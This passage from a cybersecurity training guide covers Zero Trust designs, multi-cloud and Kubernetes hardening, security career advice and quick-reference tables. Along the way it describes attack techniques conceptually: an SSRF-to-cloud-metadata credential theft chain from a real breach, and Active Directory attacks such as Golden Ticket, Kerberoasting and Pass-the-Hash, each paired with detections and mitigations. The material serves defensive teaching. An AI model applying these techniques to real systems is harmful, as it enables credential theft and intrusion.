| Criterion | Weight | Questions |
|-----------|--------|-----------|
| Identity integration | 25% | Entra ID, Okta, SAML/OIDC native? |
| Device posture | 20% | CrowdStrike, Intune, custom checks? |
| Protocol support | 15% | HTTP, SSH, RDP, legacy TCP? |
| Logging/SIEM | 15% | Syslog, API, per-session detail? |
| Performance | 15% | Latency vs full-tunnel VPN? |
| Cost model | 10% | Per-user vs per-app pricing? |

### Continuous Verification Signals

| Signal | Action on Anomaly |
|--------|-------------------|
| Impossible travel | Step-up MFA or block |
| New device fingerprint | Device registration workflow |
| Risk score increase | Restrict to low-sensitivity apps |
| EDR health check fail | Block until remediation |

> **Never Forget:** Device trust requires **honest reporting**. A compromised endpoint that passes compliance checks is a ZT failure — validate EDR tamper protection.

---

## 18.8 Zero Trust Architecture Patterns by Environment

### Remote Workforce Pattern

```mermaid
%%{init: {'theme': 'base', 'themeVariables': {'primaryColor': '#D2691E', 'primaryTextColor': '#ffffff', 'primaryBorderColor': '#5D2E0C'}}}%%
flowchart TB
    USER[Remote User] --> IDP[Identity Provider MFA]
    IDP --> ZTNA[ZTNA Broker]
    ZTNA --> SAAS[SaaS Apps]
    ZTNA --> INT[Internal Web Apps]
    EDR[EDR Posture Check] --> ZTNA
    USER --> EDR
```

| Component | Function |
|-----------|----------|
| Identity Provider | SSO + MFA + conditional access |
| ZTNA Broker | App-level proxy; no flat network |
| EDR Posture | Device health gate |
| CASB | SaaS visibility and DLP |

### Data Center Pattern

| Layer | Zero Trust Control |
|-------|-------------------|
| North-south | ZTNA or app-aware proxy |
| East-west | Microsegmentation (Illumio, NSX) |
| Identity | PAM for admin; no shared accounts |
| Workloads | mTLS between services |

### Hybrid Cloud Pattern

| Challenge | Solution |
|-----------|----------|
| On-prem + cloud identity | Federated IdP (Entra ID, Okta) |
| Legacy apps no SSO | App proxy with header injection |
| Mainframe access | Jump host with session recording |
| OT/ICS isolation | Separate ZT zone; no IT cred overlap |

---

## 18.9 Part 18 Lab Exercises

| # | Exercise | Objective |
|---|----------|-----------|
| 1 | Map current network to NIST 800-207 pillars | Gap analysis |
| 2 | Design conditional access policy on paper | Identity architecture |
| 3 | Compare VPN vs ZTNA for your org | Business case |
| 4 | Implement microsegmentation rules in lab VPC | Network ZT |
| 5 | Write ZTNA migration roadmap | Program planning |

---


# Part 19: Multi-Cloud & Kubernetes Security (Advanced)

Enterprises rarely stay single-cloud. Advanced practitioners must unify identity, detection, and workload protection across AWS, Azure, GCP, and Kubernetes clusters.

---

## 19.1 Cloud-Native Security Platforms

| Platform | Cloud | Capabilities |
|----------|-------|--------------|
| **Microsoft Defender for Cloud** | Azure + multi-cloud | CSPM, CWPP, Defender for Containers |
| **Google Security Command Center** | GCP | Security Health Analytics, Event Threat Detection |
| **AWS Security Hub** | AWS | Aggregates GuardDuty, Inspector, Macie |
| **Prisma Cloud / Wiz** | Multi-cloud | Unified CNAPP |

### Defender for Cloud Tiers

| Feature | Free | Defender Plans |
|---------|------|----------------|
| Secure Score | Yes | Enhanced recommendations |
| CSPM | Basic | Advanced (attack paths) |
| Agentless scanning | Limited | Full VM/container scanning |
| Threat detection | — | Per-resource-type plans |

### GCP SCC Findings Example Categories

| Category | Example Finding |
|----------|-----------------|
| Public bucket | `storage.googleapis.com` world-readable |
| Open firewall | 0.0.0.0/0 on port 22 |
| SA key age | Service account key > 90 days |
| GKE vulnerability | Unpatched node pool version |

> **Never Forget:** Multi-cloud security tools reduce **dashboard sprawl** but do not replace understanding each provider's native controls.

---

## 19.2 Cross-Cloud IAM

| Challenge | Pattern |
|-----------|---------|
| Identity federation | Entra ID / Okta as IdP for all clouds |
| Overprivileged SA keys | Workload identity federation (GCP), IRSA (AWS) |
| Shadow admin accounts | CIEM tools + periodic access reviews |
| Inconsistent RBAC | Map roles to enterprise job functions |

### Federation Architecture

```mermaid
%%{init: {'theme': 'base', 'themeVariables': {'primaryColor': '#D2691E', 'primaryTextColor': '#ffffff', 'primaryBorderColor': '#5D2E0C'}}}%%
flowchart TB
    IDP[Enterprise IdP] --> AWS[AWS IAM Roles]
    IDP --> AZ[Azure RBAC]
    IDP --> GCP[GCP IAM]
    AWS --> APP1[App Workloads]
    AZ --> APP2[App Workloads]
    GCP --> APP3[App Workloads]
```

| Anti-Pattern | Fix |
|--------------|-----|
| Long-lived access keys in CI | OIDC federation to cloud IAM |
| Shared admin account | Named accounts with PIM/JIT |
| Project Owner for developers | Least privilege custom roles |

---

## 19.3 Kubernetes RBAC

| Resource | Purpose |
|----------|---------|
| Role / ClusterRole | Defines permissions |
| RoleBinding / ClusterRoleBinding | Assigns role to user/group/SA |
| ServiceAccount | Identity for pods |

```yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  namespace: production
  name: pod-reader
rules:
- apiGroups: [""]
  resources: ["pods"]
  verbs: ["get", "list"]
```

### Dangerous ClusterRole Bindings

| Binding | Risk |
|---------|------|
| `cluster-admin` to default SA | Full cluster compromise from any pod |
| Wildcard verbs on secrets | Credential theft |
| bind impersonate | Privilege escalation |

> **Never Forget:** Never mount **cluster-admin** credentials into application pods. Use namespace-scoped roles and separate admin kubeconfigs.

---

## 19.4 NetworkPolicy and Pod Security

### NetworkPolicy Example

```yaml
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: deny-all-ingress
  namespace: production
spec:
  podSelector: {}
  policyTypes:
  - Ingress
  - Egress
```

| Policy Pattern | Effect |
|----------------|--------|
| Default deny ingress | Zero trust east-west |
| Allow frontend to backend only | Microsegmentation |
| Deny egress to metadata IP | Block cloud credential theft |

### Pod Security Standards (PSS)

| Level | Restrictions |
|-------|--------------|
| **Privileged** | Unrestricted (system components only) |
| **Baseline** | Blocks known privilege escalations |
| **Restricted** | Hardened; non-root, drop capabilities |

```yaml
apiVersion: v1
kind: Namespace
metadata:
  name: production
  labels:
    pod-security.kubernetes.io/enforce: restricted
```

---

## 19.5 Secrets Management in Kubernetes

| Approach | Security |
|----------|----------|
| Plain Secrets in etcd | Base64 only — not encryption |
| etcd encryption at rest | Better; key management critical |
| External Secrets Operator | Pull from Vault/AWS SM/GCP SM |
| Sealed Secrets | Encrypted in Git |

### Secret Anti-Patterns

| Anti-Pattern | Consequence |
|--------------|-------------|
| Secrets in container env vars | Visible in process list, logs |
| Secrets in ConfigMaps | No even base64 pretense |
| Secrets in Git plaintext | Eternal exposure if repo leaks |

---

## 19.6 Service Mesh mTLS (Brief)

| Feature | Benefit |
|---------|---------|
| Automatic mTLS | Encrypted pod-to-pod without app changes |
| Identity (SPIFFE) | Cryptographic workload identity |
| Authorization policies | L7 access control |
| Observability | Golden metrics per service |

### Istio mTLS Mode

| Mode | Description |
|------|-------------|
| STRICT | Only mTLS allowed |
| PERMISSIVE | Accepts TLS and plaintext (migration) |
| DISABLE | No mesh TLS |

> **Never Forget:** Service mesh adds **operational complexity**. Adopt when multi-team Kubernetes scale justifies centralized traffic policy — not before.

---

## 19.7 Case Study: Capital One Pattern Lessons

### Incident Summary (2019)

Misconfigured WAF (ModSecurity) on AWS allowed SSRF via crafted requests. Attacker accessed EC2 metadata (IMDSv1), obtained IAM role credentials, and exfiltrated S3 bucket data.

### Attack Chain

```mermaid
%%{init: {'theme': 'base', 'themeVariables': {'primaryColor': '#D2691E', 'primaryTextColor': '#ffffff', 'primaryBorderColor': '#5D2E0C'}}}%%
flowchart LR
    A[SSRF via WAF bypass] --> B[Access IMDS 169.254.169.254]
    B --> C[Obtain IAM role creds]
    C --> D[List S3 buckets]
    D --> E[Exfiltrate data]
```

### Lessons for Multi-Cloud/K8s Operators

| Lesson | Modern Control |
|--------|----------------|
| SSRF to metadata is critical | IMDSv2 required; hop limit = 1 |
| Overprivileged IAM roles | Scoped roles per workload; IRSA in K8s |
| WAF != application security | Fix app SSRF; WAF is defense in depth |
| Logging gaps delay detection | CloudTrail + GuardDuty on anomalous S3 API |
| Serverless/container same risk | Never expose metadata endpoint to user input paths |

### Kubernetes Parallel

| Capital One Pattern | K8s Equivalent |
|-------------------|----------------|
| SSRF to 169.254.169.254 | SSRF from pod to cloud metadata |
| IAM role on EC2 | Workload identity / node SA permissions |
| S3 exfiltration | Cloud storage from compromised SA |

**Mitigation checklist:**

1. Enforce IMDSv2 on all EC2 and restrict hop limit
2. Use IRSA/EKS pod identity — no broad node IAM roles
3. NetworkPolicy deny egress to 169.254.169.254
4. CSPM rule: flag IAM roles with `s3:*` on `*`
5. GuardDuty S3 anomaly detection enabled

> **Never Forget:** The Capital One breach was **misconfiguration plus SSRF**, not sophisticated zero-day. CSPM and metadata protection are table stakes.

---

## 19.8 Cloud Security Benchmarks and CIS

| Framework | Scope |
|-----------|-------|
| CIS AWS Foundations | IAM, logging, networking |
| CIS Azure Foundations | Identity, storage, compute |
| CIS GCP Foundations | IAM, VPC, logging |
| CIS Kubernetes | Control plane, worker, policies |

### EKS/AKS/GKE Security Comparison

| Control | EKS | AKS | GKE |
|---------|-----|-----|-----|
| RBAC integration | IAM + K8s RBAC | Entra ID + K8s | GCP IAM + K8s |
| Pod identity | IRSA | Workload Identity | Workload Identity |
| Network policy | CNI dependent | Azure CNI | Calico optional |
| Private cluster | Supported | Supported | Supported |
| Audit logging | CloudTrail + K8s audit | Azure Monitor | Cloud Logging |

### K8s Incident Response Checklist

| Step | Action |
|------|--------|
| 1 | Identify compromised namespace/pod |
| 2 | NetworkPolicy deny-all egress on namespace |
| 3 | Capture container logs and memory if possible |
| 4 | Rotate service account tokens and secrets |
| 5 | Review RBAC for privilege escalation paths |
| 6 | Scan all images in namespace with Trivy |
| 7 | Document timeline for post-incident review |

> **Never Forget:** In Kubernetes incidents, **the API server audit log** is your flight recorder. Enable and retain it before you need it.

---

## 19.9 Cloud IAM Anti-Patterns and Fixes

| Anti-Pattern | Example | Fix |
|--------------|---------|-----|
| Wildcard actions | `"Action": "*"` | Scope to required API calls |
| Wildcard resources | `"Resource": "*"` | ARN-scoped resources |
| Long-lived keys | IAM user access keys in code | OIDC / workload identity |
| Shared admin role | One AdminAccess role for all | Separate roles per team |
| Unused permissions | 90-day unused IAM actions | CIEM right-sizing |

### AWS IRSA Configuration Concept

```yaml
# EKS ServiceAccount annotation — lab reference
apiVersion: v1
kind: ServiceAccount
metadata:
  name: my-app
  annotations:
    eks.amazonaws.com/role-arn: arn:aws:iam::123456789012:role/my-app-role
```

### GCP Workload Identity Concept

| Step | Action |
|------|--------|
| 1 | Create GCP SA with minimal roles |
| 2 | Bind K8s SA to GCP SA |
| 3 | Annotate K8s SA with GCP SA email |
| 4 | Remove node-level cloud credentials |

---

## 19.10 Part 19 Lab Exercises

| # | Exercise | Objective |
|---|----------|-----------|
| 1 | Deploy GKE/EKS with PSS restricted | Pod hardening |
| 2 | Write NetworkPolicy for 3-tier app | Microsegmentation |
| 3 | Configure workload identity (no keys) | Cloud-native IAM |
| 4 | Run Defender/SCC/Security Hub scan | Multi-cloud posture |
| 5 | Simulate metadata SSRF in lab | Validate controls |

---


# Part 20: World-Class Operator Mindset

Technical depth alone does not make a world-class security operator. The professionals who reach principal level, lead purple teams, and brief executives combine **breadth, depth, and communication**.

---

## 20.1 Breadth + Depth + Communication

| Dimension | Junior | Senior | World-Class |
|-----------|--------|--------|-------------|
| **Breadth** | One domain (SOC or pentest) | Two domains fluently | End-to-end kill chain fluency |
| **Depth** | Runs tools | Builds detections/exploits | Novel research; tool development |
| **Communication** | Ticket notes | Incident reports | Executive briefings; board-ready metrics |

```mermaid
%%{init: {'theme': 'base', 'themeVariables': {'primaryColor': '#D2691E', 'primaryTextColor': '#ffffff', 'primaryBorderColor': '#5D2E0C'}}}%%
mindmap
  root((World-Class Operator))
    Breadth
      Cloud
      AD
      AppSec
      IR
    Depth
      Exploitation
      Detection Engineering
      Forensics
    Communication
      Written Reports
      Executive Briefs
      Tabletop Facilitation
```

> **Never Forget:** Being the smartest person in the room who **cannot explain the risk in business terms** will cap your career below your technical potential.

### T-Shaped Skill Model

| Horizontal Bar | Vertical Bar |
|----------------|--------------|
| Networking, OS, cloud, identity, app basics | One specialty at research-grade depth |
| Enough to collaborate with specialists | Known for excellence in one area |

---

## 20.2 Purple Team Operations

| Activity | Red Contribution | Blue Contribution |
|----------|------------------|-------------------|
| Exercise planning | Attack scenarios | Detection gap priorities |
| Execution | Controlled TTP execution | Real-time detection validation |
| Debrief | What worked evading | What fired; false negatives |
| Improvement | Updated playbooks | New Sigma/YARA rules |

### Purple Team Exercise Template

| Field | Content |
|-------|---------|
| Objective | Validate detection of T1003.001 LSASS access |
| Scope | WORKSTATION segment; no production servers |
| Rules of engagement | Hours, contacts, stop conditions |
| Success criteria | 3 of 4 variants detected within 5 minutes |
| Out of scope | Phishing real users, data exfiltration |

> **Never Forget:** Purple team is **not** red team with blue watching. It is collaborative improvement with shared metrics and no blame culture.

---

## 20.3 Tabletop Exercise Facilitation

| Phase | Facilitator Actions |
|-------|---------------------|
| Pre-brief | Distribute scenario; define inject schedule |
| Execution | Present injects; capture decisions and timestamps |
| Probe | Ask "what next?" when team stalls |
| Hot wash | Same day — what worked, gaps |
| Report | Findings with owners and due dates within 1 week |

### Sample Inject Schedule (Ransomware Scenario)

| Time | Inject |
|------|--------|
| T+0 | EDR alert: suspicious encryption on file server |
| T+15 | Helpdesk flooded with file access tickets |
| T+30 | Threat actor email: pay 500 BTC |
| T+45 | Media inquiry received by PR |
| T+60 | Backup team reports last good backup is 72 hours old |

---

## 20.4 Executive Briefing Templates

### One-Page Executive Summary Structure

```
INCIDENT BRIEF — [DATE]
Status: [CONTAINED | ACTIVE | MONITORING]

BUSINESS IMPACT (plain language)
- Customer data affected: [Yes/No — scope]
- Operations disrupted: [Systems, duration]
- Regulatory notification required: [Yes/No — which]

WHAT HAPPENED (3 sentences max)
[Timeline summary without jargon]

WHAT WE ARE DOING
1. [Immediate action]
2. [Next 24 hours]
3. [Long-term fix]

WHAT WE NEED FROM LEADERSHIP
- [Decision or resource request]

NEXT UPDATE: [Time]
```

### Metrics Leaders Care About

| Metric | Why It Matters |
|--------|----------------|
| Mean Time to Detect (MTTD) | Risk exposure window |
| Mean Time to Respond (MTTR) | Business continuity |
| % Critical assets covered by EDR | Blind spot visibility |
| Patch SLA compliance | Preventable vuln exposure |
| Phishing click rate trend | Human risk indicator |

> **Never Forget:** Executives want **decisions and impact**, not CVE numbers. Lead with business consequence.

---

## 20.5 Certification Path

| Stage | Certification | Focus |
|-------|---------------|-------|
| Foundation | CompTIA Security+ | Broad baseline |
| Hands-on offensive | **OSCP** | Practical pentest |
| Advanced offensive | **OSED** / CRTO | Exploit development, EDR evasion |
| Incident response | **GCIH** (GIAC) | Handler skills |
| Management/architecture | **CISSP** | Domain breadth; leadership |
| Specialized GIAC | GPEN, GNFA, GCFA | Deep tracks |

### Recommended Progression

```mermaid
%%{init: {'theme': 'base', 'themeVariables': {'primaryColor': '#D2691E', 'primaryTextColor': '#ffffff', 'primaryBorderColor': '#5D2E0C'}}}%%
flowchart LR
    SEC[Security+] --> OSCP[OSCP]
    OSCP --> GCIH[GCIH]
    OSCP --> OSED[OSED]
    GCIH --> CISSP[CISSP]
    OSED --> CISSP
    CISSP --> GIAC[GIAC Specialty]
```

| Cert | Best For | Study Time |
|------|----------|------------|
| OSCP | Proving hands-on offensive | 4-8 months |
| OSED | Exploit dev career track | 3-6 months post-OSCP |
| GCIH | SOC/IR lead path | 2-4 months |
| CISSP | Management, architect roles | 2-3 months (with experience) |

> **Never Forget:** Certifications **open doors** but labs and write-ups **prove ability**. Pursue both.

---

## 20.6 Twenty Home Lab Portfolio Projects

| # | Project | Skills Demonstrated |
|---|---------|---------------------|
| 1 | Active Directory lab (GOAD) | AD attacks and defenses |
| 2 | SIEM from scratch (Elastic stack) | Log ingestion, detection |
| 3 | Custom Sigma rule pack (10 rules) | Detection engineering |
| 4 | Threat hunting notebook (Jupyter) | Hunt methodology |
| 5 | Malware analysis VM with reports | Static/dynamic analysis |
| 6 | Cloud misconfiguration scanner script | CSPM concepts |
| 7 | Kubernetes hardening guide + manifests | Container security |
| 8 | Purple team exercise write-up | Collaborative security |
| 9 | OSINT investigation portfolio piece | Recon and attribution |
| 10 | Wireshark analysis of C2 traffic | Network forensics |
| 11 | Vulnerable app deployment + remediation | AppSec lifecycle |
| 12 | Terraform secure baseline (AWS/Azure) | IaC security |
| 13 | GitHub Actions DevSecOps pipeline | Supply chain security |
| 14 | YARA rule collection with tests | Pattern matching |
| 15 | Incident response tabletop facilitation recording | Leadership |
| 16 | Zero Trust architecture document | Design skills |
| 17 | Memory forensics case write-up | Volatility proficiency |
| 18 | Bug bounty or responsible disclosure report | Real-world findings |
| 19 | Custom C2 detector (educational) | Adversary emulation awareness |
| 20 | Personal security blog or GitHub portfolio README | Communication |

### Portfolio Presentation Tips

| Tip | Detail |
|-----|--------|
| One page per project | Problem, approach, outcome, artifacts link |
| Include detection AND offense | Shows purple mindset |
| Redact responsibly | No real org data or live IOCs from employers |
| Keep updating | Stale portfolio implies stale skills |

---

## 20.7 Daily and Weekly Habits

### Daily (30-60 minutes)

| Habit | Time | Benefit |
|-------|------|---------|
| Read one threat report or CVE summary | 15 min | Situational awareness |
| One lab technique or query | 30 min | Skill maintenance |
| Review one Slack/Discord security thread critically | 10 min | Community engagement |
| Journal one thing learned | 5 min | Spaced retention |

### Weekly (2-4 hours)

| Habit | Time | Benefit |
|-------|------|---------|
| Deep lab block (uninterrupted) | 2 hr | Complex skill building |
| Write or update portfolio artifact | 1 hr | Career capital |
| Peer review or mentorship session | 30 min | Communication practice |
| Review personal OPSEC (keys, access, repos) | 15 min | Practice what you preach |

### Monthly

| Activity | Purpose |
|----------|---------|
| Rotate personal API keys and passwords | Credential hygiene |
| Revisit Part 1 "Never Forget" boxes | Foundation retention |
| One tabletop or purple exercise | Operational readiness |
| Career checkpoint: am I T-shaped enough? | Intentional growth |

> **Never Forget:** Consistency beats intensity. **30 minutes daily** for a year surpasses cramming for OSCP then stopping.

---

## 20.8 The Operator's Creed

| Principle | Application |
|-----------|-------------|
| **Integrity** | Never test without authorization |
| **Humility** | Assume you have blind spots; seek purple feedback |
| **Curiosity** | Ask "how would I detect this?" after every attack technique |
| **Clarity** | Write so a smart non-specialist understands |
| **Resilience** | Incidents and exam failures are data, not identity |

### Final Career Checkpoints

| Checkpoint | Question |
|------------|----------|
| Technical | Can I detect and explain the last 5 ATT&CK techniques I learned? |
| Operational | Can I run an incident from triage to executive brief? |
| Strategic | Can I design a security program budget and roadmap? |
| Community | Have I made others better this year? |

World-class operators are built over **years**, not certifications alone. This guide gave you the map — the lab hours, failed queries, broken exploits, and hard-won incident lessons are the territory.

> **Never Forget:** You are not finished when you read Part 20. You are finished when the **next generation** learns from your write-ups, detections, and integrity in the field.

---

## 20.8 Case Study: From SOC Analyst to Security Lead

### Background

Analyst with 3 years SOC experience targets security engineering lead role at a mid-size enterprise. Gap analysis reveals strong alert triage but weak architecture communication and no cloud depth.

### 12-Month Transformation Plan

| Month | Focus | Deliverable |
|-------|-------|-------------|
| 1-2 | Complete Part 14 AD lab | GOAD write-up published |
| 3-4 | Detection engineering | 10 Sigma rules in production |
| 5-6 | Cloud security (Part 19) | AWS security baseline Terraform |
| 7-8 | Purple team exercise | Facilitated exercise with report |
| 9-10 | CISSP study + exec communication | Mock board brief delivered |
| 11-12 | Portfolio + interviews | 5 project demos ready |

### Outcome

| Before | After |
|--------|-------|
| Closed 40 tickets/week | Built 3 detection pipelines |
| Unknown to leadership | Quarterly security brief owner |
| No certifications | OSCP + GCIH passed |
| Internal only | Conference talk submitted |

> **Never Forget:** Career growth is a **project with milestones**, not a passive hope for promotion.

---

## 20.9 Interview and Career Preparation

### Technical Interview Domains

| Domain | Sample Question | What They Test |
|--------|-----------------|----------------|
| Incident Response | Walk me through ransomware triage | Process, prioritization |
| Architecture | Design security for a fintech API | Zero trust, encryption |
| Detection | Write a Sigma rule for LSASS access | Hands-on skill |
| Cloud | How would you detect IAM key misuse? | Cloud-native thinking |
| Communication | Explain MFA to a CEO in 30 seconds | Clarity |

### Behavioral STAR Template for Security

```
Situation: Ransomware alert on production file server during peak hours
Task: Lead containment without paying ransom or losing data
Action: Isolated VLAN, validated backups, traced entry via VPN logs, reset creds
Result: Restored in 4 hours; zero data loss; added VPN geo-blocking
```

### Reading List (Ongoing)

| Resource | Focus |
|----------|-------|
| Krebs on Security | Current threat landscape |
| SpecterOps blog | AD attack research |
| Elastic Security Labs | Detection research |
| OWASP | Application security |
| NIST publications | Frameworks and standards |
| Vendor threat reports (M-Trends, etc.) | Annual trend analysis |

> **Never Forget:** Interviewers remember candidates who **asked good questions** about their detection stack and incident volume — curiosity signals operator mindset.

---

## 20.10 Part 20 Capstone Exercises

| # | Exercise | Objective |
|---|----------|-----------|
| 1 | Deliver 5-minute exec brief on mock incident | Communication |
| 2 | Facilitate 60-minute tabletop | Leadership |
| 3 | Complete 3 portfolio projects from the list | Demonstrable skill |
| 4 | Map your cert path with timeline | Career planning |
| 5 | Publish one technical blog post | Community contribution |

---

# Appendix: Parts 14-20 Quick Reference Cards

Consolidated lookup tables for daily operator use.

---

## AD Attack Quick Reference

| Item | Description | Detection | Mitigation |
|------|-------------|-----------|------------|
| **Golden Ticket** | Forged TGT with krbtgt hash | 4768 anomalies | Rotate krbtgt 2x |
| **Silver Ticket** | Forged TGS with service hash | No 4769 for access | gMSA, strong passwords |
| **Kerberoasting** | TGS crack offline | 4769 RC4 spike | Long random SPN passwords |
| **Pass-the-Hash** | NTLM auth with hash | 4624 Type 3 NTLM | Credential Guard, LAPS |
| **AS-REP Roast** | No pre-auth accounts | 4768 without 4771 | Enable pre-auth on all accounts |

> **Never Forget:** Review the **AD Attack Quick Reference** table weekly during your first year on the World-Class Track.

---

## Critical Windows Event IDs

| Item | Description | Detection / Control |
|------|-------------|----------------------|
| **4624** | Successful logon | Type 3 from workstation to many servers |
| **4625** | Failed logon | Spray: many users one source |
| **4672** | Special privileges | On unexpected hosts |
| **4768** | TGT request | RC4 on modern accounts |
| **4769** | TGS request | Kerberoasting indicator |
| **4776** | NTLM validation | PtH correlation |

> **Never Forget:** Review the **Critical Windows Event IDs** table weekly during your first year on the World-Class Track.

---

## Threat Hunting Tools

| Item | Description | Detection / Control |
|------|-------------|----------------------|
| **YARA** | File/memory patterns | Malware identification |
| **Sigma** | Generic detection rules | SIEM portability |
| **Splunk SPL** | Query language | Enterprise SIEM |
| **Elastic EQL** | Sequence queries | Behavioral detection |
| **MISP** | Intel sharing | STIX/TAXII hub |
| **MITRE ATT&CK** | TTP framework | Hunt mapping |

> **Never Forget:** Review the **Threat Hunting Tools** table weekly during your first year on the World-Class Track.

---

## DevSecOps Toolchain

| Item | Description | Detection / Control |
|------|-------------|----------------------|
| **Semgrep** | SAST | Custom rules in CI |
| **SonarQube** | SAST + quality | Quality gates |
| **Dependabot** | SCA | GitHub native |
| **Snyk** | SCA + container | Developer UX |
| **Trivy** | Container/IaC scan | Fast CI scans |
| **cosign** | Artifact signing | Supply chain integrity |

> **Never Forget:** Review the **DevSecOps Toolchain** table weekly during your first year on the World-Class Track.

---

## Zero Trust Pillars (NIST 800-207)

| Item | Description | Detection / Control |
|------|-------------|----------------------|
| **Verify explicitly** | MFA, device posture | Conditional access |
| **Least privilege** | JIT access, RBAC | PIM, microsegmentation |
| **Assume breach** | Logging, segmentation | EDR, deception |

> **Never Forget:** Review the **Zero Trust Pillars (NIST 800-207)** table weekly during your first year on the World-Class Track.

---

## Kubernetes Security Controls

| Item | Description | Detection / Control |
|------|-------------|----------------------|
| **RBAC** | Authorization | Least privilege SA |
| **NetworkPolicy** | East-west firewall | Default deny |
| **Pod Security** | Pod hardening | Restricted standard |
| **Secrets Operator** | External secrets | Vault, cloud SM |
| **mTLS mesh** | Service encryption | Istio, Linkerd |

> **Never Forget:** Review the **Kubernetes Security Controls** table weekly during your first year on the World-Class Track.

---

## Self-Study Progress Tracker

| Part | Topic | Completed | Lab Done | Notes |
|------|-------|-----------|----------|-------|
| 14 | Windows & AD Security | [ ] | [ ] | |
| 15 | Threat Hunting & TI | [ ] | [ ] | |
| 16 | Malware Analysis | [ ] | [ ] | |
| 17 | DevSecOps & Supply Chain | [ ] | [ ] | |
| 18 | Zero Trust | [ ] | [ ] | |
| 19 | Multi-Cloud & K8s | [ ] | [ ] | |
| 20 | Operator Mindset | [ ] | [ ] | |

> **Never Forget:** Track completion honestly. **Lab done** means you executed exercises, not that you read the section.

---

## Glossary (Parts 14-20)

| Term | Definition |
|------|------------|
| **AD** | Active Directory — Microsoft identity and directory service |
| **ATT&CK** | MITRE Adversary Tactics, Techniques, and Common Knowledge |
| **CSPM** | Cloud Security Posture Management |
| **CWPP** | Cloud Workload Protection Platform |
| **gMSA** | Group Managed Service Account |
| **IOA** | Indicator of Attack — behavioral indicator |
| **IOC** | Indicator of Compromise — artifact indicator |
| **IRSA** | IAM Roles for Service Accounts (AWS EKS) |
| **LAPS** | Local Administrator Password Solution |
| **PAW** | Privileged Access Workstation |
| **PtH** | Pass-the-Hash |
| **PSS** | Pod Security Standards (Kubernetes) |
| **SBOM** | Software Bill of Materials |
| **SCA** | Software Composition Analysis |
| **SLSA** | Supply-chain Levels for Software Artifacts |
| **SPN** | Service Principal Name |
| **STIX** | Structured Threat Information Expression |
| **TAXII** | Trusted Automated Exchange of Indicator Information |
| **TGT** | Ticket Granting Ticket (Kerberos) |
| **TGS** | Ticket Granting Service / Service Ticket |
| **ZTNA** | Zero Trust Network Access |

> **Never Forget:** Terms in this glossary appear repeatedly across Parts 14-20. Flashcard them until recall is instant.

## Glossary

| Term | Definition |
|------|------------|
| ATO | Authority to Operate |
| C2 | Command and Control |
| CVE | Common Vulnerabilities and Exposures |
| CVSS | Common Vulnerability Scoring System |
| CWE | Common Weakness Enumeration |
| DLP | Data Loss Prevention |
| EDR | Endpoint Detection and Response |
| IAM | Identity and Access Management |
| IOC | Indicator of Compromise |
| IR | Incident Response |
| MITRE ATT&CK | Adversary tactics and techniques knowledge base |
| MFA | Multi-Factor Authentication |
| OWASP | Open Web Application Security Project |
| PTES | Penetration Testing Execution Standard |
| RBAC | Role-Based Access Control |
| ROE | Rules of Engagement |
| RMF | Risk Management Framework |
| SIEM | Security Information and Event Management |
| SOAR | Security Orchestration, Automation, and Response |
| SOC | Security Operations Center |
| SSTI | Server-Side Template Injection |
| STIG | Security Technical Implementation Guide |
| SSRF | Server-Side Request Forgery |
| TTP | Tactics, Techniques, and Procedures |
| WAF | Web Application Firewall |
| XSS | Cross-Site Scripting |

---

## Final Words

Cybersecurity is a **discipline of continuous learning**. Threats evolve daily. Tools change. Vulnerabilities are discovered hourly. What does not change:

1. **The fundamentals** — CIA triad, defense in depth, least privilege
2. **The ethics** — authorized work only, protect users, responsible disclosure
3. **The mindset** — think like an attacker, defend like a professional
4. **The curiosity** — lab, break, fix, document, repeat

You started this guide knowing nothing. If you worked through every part — typed every command, built the lab, wrote the reports — you now have a foundation that many working professionals lack.

The path from here to big tech or government superstar is not short. It is not easy. But it is **structured**, and you now have the map.

Go build your lab. Go break things (that you own). Go defend things. Go document everything.

Welcome to cybersecurity.

---

*Document version: 2.0 | Last updated: 2026-07-20 | Parts 14-20: World-Class Track*
*Target audience: Zero prior cybersecurity knowledge*
*Companion guide: NETWORKING Master Guide (cross-reference Part 4)*

---
